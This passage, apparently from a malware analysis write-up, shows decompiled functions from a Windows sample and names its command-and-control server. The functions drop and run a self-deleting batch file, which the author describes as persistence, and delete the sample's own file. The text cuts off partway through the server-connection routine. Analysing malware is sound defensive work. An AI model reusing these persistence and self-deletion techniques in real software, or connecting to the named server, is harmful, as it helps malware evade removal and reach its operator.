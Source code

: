 * <span style="color:red">*FUN_00406c4b*</span> is then call <span style="color:red">*FUN_00406ca6*</span>:

    ```
    uint FUN_00406ca6(LPCVOID param_1)
    {
    ...
    
    uVar1 = FUN_0040a569(&DAT_004031ec,local_250);
    if ((char)uVar1 != '\0') {
        CharToOemW(local_250,local_354);
        DVar2 = FUN_00405faa(&param_1,"@echo off\r\n%s\r\ndel /F \"%s\"\r\n");
        if (DVar2 != 0xffffffff) {
        uVar1 = FUN_0040a39d(local_250,param_1,DVar2);
        FUN_004051e6(param_1);
        if ((((char)uVar1 != '\0') &&
            (iVar3 = FUN_00405ed9(extraout_ECX,0x10e,L"/c \"%s\""), -1 < iVar3)) &&
            (DVar2 = GetEnvironmentVariableW(L"ComSpec",local_250,0x104), DVar2 - 1 < 0x103)) {
            FUN_00405299(local_48,0,0x44);
            local_18 = 0;
            local_1c = 1;
            DVar2 = FUN_00406aad(local_250,local_570,(LPCWSTR)0x0,local_48,(undefined *)0x0);
            return DVar2 & 0xffffff00 | (uint)(DVar2 != 0);
        }
        }
        uVar1 = FUN_0040a548(local_250);
    }
    return uVar1 & 0xffffff00;
    }
    ```

    - It actually creates a bat file that run in the background every time the computer start.

    - What's more, <span style="color:red">*FUN_00406ca6*</span> also calls <span style="color:red">*FUN_0040a548*</span>, which is used to delete itself.

    ```
    uint FUN_0040a548(LPCWSTR param_1)
    {
    uint uVar1;
    
    SetFileAttributesW(param_1,0x80);
    uVar1 = DeleteFileW(param_1);
    return uVar1 & 0xffffff00 | (uint)(uVar1 != 0);
    }
    ```

# Summary 
* The server's name: <span style="color:red">*U.LEWD.SE*</span>.
* The function to connect to server:
    ```
    SOCKET FUN_0040822e(void)
    {
    SOCKET s;
    int iVar1;
    sockaddr *unaff_EDI;
    